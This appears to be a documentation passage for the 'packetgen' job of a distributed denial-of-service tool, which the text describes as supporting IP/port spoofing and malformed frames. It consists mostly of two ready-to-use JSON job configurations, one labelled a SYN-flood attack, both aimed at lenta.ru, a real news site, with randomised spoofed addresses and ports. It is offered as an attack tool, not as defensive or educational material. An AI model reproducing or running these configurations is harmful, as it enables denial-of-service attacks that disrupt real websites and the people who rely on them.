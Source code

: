 ```json
```


#  PACKETGEN JOB

Use if you want to you attack using more advanced techniques.
For experienced users this techniques includes ips/port spoofing, sending malformed tcp/udp/ip/ethernet frames(more protocols to be added).

**Structure of PACKETGEN Job**
```json
 {
		"type": "packetgen",
		"args": {
		  "host": "lenta.ru",
		  "port": "80",
		  "packet": {
			"payload": "{{ random_payload 100 }}",
			"ethernet": {
			  "src_mac": "{{ random_mac_addr }}",
			  "dst_mac": "{{ random_mac_addr }}"
			},
			"ip": {
			  "src_ip": "{{ local_ip }}",
			  "dst_ip": "{{ random_ip }}"
			},
			"tcp": {
			  "src_port": "{{ random_port }}",
			  "dst_port": "{{ random_port }}",
			  "flags": {
				"syn": true
			  }
			}
		  }
		}
}
```


### Examples (syn-flood attack via packetgen)
```json
{
		"type": "packetgen",
		"args": {
		  "host": "lenta.ru",
		  "port": "443",
		  "packet": {
			"payload": "{{ random_payload 100 }}",
			"ethernet": {
			  "src_mac": "{{ random_mac_addr }}",
			  "dst_mac": "{{ random_mac_addr }}"
			},
			"ip": {
			  "src_ip": "{{ local_ip }}",
			  "dst_ip": "{{ random_ip }}"
			},
			"tcp": {
			  "src_port": "{{ random_port }}",
			  "dst_port": "{{ random_port }}",
			  "flags": {
				"syn": true
			  }
			}
		  }
```